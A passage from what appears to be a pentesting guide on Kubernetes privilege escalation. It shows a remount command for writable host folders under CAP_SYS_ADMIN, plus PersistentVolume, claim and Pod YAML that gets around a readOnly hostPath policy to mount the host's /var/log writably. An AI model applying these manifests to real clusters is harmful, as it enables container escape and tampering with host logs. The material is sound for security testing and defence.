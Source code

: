 If you are lucky enough and the highly privileged capability capability `CAP_SYS_ADMIN` is available, you can just remount the folder as rw:

```bash
mount -o rw,remount /hostlogs/
```

#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

As stated in [**this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) it’s possible to bypass the protection:

```yaml
allowedHostPaths:
    - pathPrefix: "/foo"
       readOnly: true
```

Which was meant to prevent escapes like the previous ones by, instead of using a a hostPath mount, use a PersistentVolume and a PersistentVolumeClaim to mount a hosts folder in the container with writable access:

```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
```